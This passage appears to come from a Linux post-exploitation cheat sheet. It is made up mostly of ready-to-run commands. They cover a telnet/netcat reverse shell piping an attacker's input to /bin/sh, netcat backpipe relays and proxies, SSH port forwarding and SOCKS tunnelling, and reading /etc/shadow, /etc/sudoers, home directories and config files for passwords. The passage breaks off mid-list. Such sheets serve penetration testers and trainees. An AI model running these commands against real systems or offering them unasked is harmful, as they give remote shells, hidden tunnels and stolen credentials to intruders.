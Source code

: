 ```
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

```
#### Is port forwarding possible? Redirect and interact with traffic from another view
##### Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
``` FPipe.exe -l 80 -r 80 -s 80 192.168.1.7```
##### Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
```
##### Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe
```
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```
#### Is tunnelling possible? Send commands locally, remotely

```
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig

```
*****

## Confidential Information & Users
#### Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
```
id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
```
#### What sensitive files can be found?
```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
```

##### Anything "interesting" in the home directorie(s)? If it's possible to access
```
ls -ahlR /root/
ls -ahlR /home/
```

#### Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords
```
cat /var/apache2/config.inc